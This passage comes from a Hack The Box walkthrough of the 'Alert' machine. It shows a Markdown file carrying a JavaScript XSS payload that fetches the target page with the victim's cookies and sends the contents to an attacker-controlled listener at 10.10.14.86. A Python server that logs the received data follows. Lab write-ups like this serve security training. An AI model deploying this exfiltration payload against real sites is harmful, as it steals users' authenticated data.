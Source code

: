 ```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Alert/serve]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.27.137 - - [23/Nov/2024 20:08:52] code 404, message File not found
10.129.27.137 - - [23/Nov/2024 20:08:52] "GET /x) HTTP/1.1" 404 -
```

As next step we build some `JavaScript` to read the page content of the person whoever clicked on our payload before and send it back to our `web server`.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Alert/files]
└─$ cat test.md 
<script>
fetch('http://alert.htb/', { credentials: 'include' }) // Fetch the target page
    .then(response => response.text()) // Convert the response to text
    .then(data => {
        // Send the content via a GET request
        fetch('http://10.10.14.86:8000/exfil?data=' + encodeURIComponent(data));
    });
</script>
```

To catch it properly we fired up a custom `web server` written in `Python`. Maybe we overshot it at this point but it worked.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Alert/serve]
└─$ cat webserver.py 
from http.server import BaseHTTPRequestHandler, HTTPServer
import logging

class RequestHandler(BaseHTTPRequestHandler):
    def do_POST(self):
        content_length = int(self.headers['Content-Length'])
        post_data = self.rfile.read(content_length)
        logging.info("Received Data: %s", post_data.decode('utf-8'))
        self.send_response(200)
        self.end_headers()

def run(server_class=HTTPServer, handler_class=RequestHandler, port=80):
    logging.basicConfig(level=logging.INFO)
    server_address = ('', port)
    httpd = server_class(server_address, handler_class)
    logging.info('Starting server on port %d...', port)
    httpd.serve_forever()

if __name__ == '__main__':
    run(port=8000)
```

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Alert/serve]
└─$ python3 webserver.py
INFO:root:Starting server on port 8000...
```
